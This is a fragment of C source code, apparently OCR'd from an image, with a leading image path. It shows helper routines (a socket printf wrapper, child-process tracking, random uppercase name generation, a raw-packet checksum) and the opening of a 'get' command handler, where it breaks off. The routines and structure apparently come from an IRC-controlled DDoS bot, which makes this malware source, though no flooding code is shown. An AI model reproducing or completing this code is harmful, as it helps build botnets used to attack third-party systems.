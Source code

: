     static char textBuffer[1024];
    va_list args;
    va_start(args, words);
    vsprintf(textBuffer, words, args);
    va_end(args);
    return write(sock, textBuffer, strlen(textBuffer));
}

int mfork(char *sender) {
    unsigned int parent, *newpids, i;
    parent = fork();
    if (parent <= 0) return parent;
    numpids++;
    newpids = (unsigned int*) malloc((numpids + 1) * sizeof (unsigned int));
    for (i = 0; i < numpids - 1; i++) newpids[i] = pids[i];
    newpids[numpids - 1] = parent;
    free(pids);
    pids = newpids;
    return parent;
}

void filter(char *a) {
    while (a[strlen(a) - 1] == '\r' || a[strlen(a) - 1] == '\n') a[strlen(a) - 1] = 0;
}

char *makestring() {
    char *tmp;
    int len = 9, i;
    tmp = (char*) malloc(len + 1);
    memset(tmp, 0, len + 1);
    for (i = 0; i < len; i++) tmp[i] = (rand() % (91 - 65)) + 65;
    return tmp;
}

long pow(long a, long b) {
    if (b == 0) return 1;
    if (b == 1) return a;
    return a * pow(a, b - 1);
}

u_short in_cksum(u_short *addr, int len) {
    register int nleft = len;
    register u_short *w = addr;
    register int sum = 0;
    u_short answer = 0;
    while (nleft > 1) {
        sum += *w++;
        nleft -= 2;
    }
    if (nleft == 1) {
        *(u_char *) (&answer) = *(u_char *) w;
        sum += answer;
    }
    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    answer = ~sum;
    return (answer);
}

void get(int sock, char *sender, int argc, char **argv) {
    int sock2, i, d;
    struct sockaddr_in server;
    unsigned long ipaddr;
    char buf[1024];
    FILE *file;
    unsigned char bufm[4096];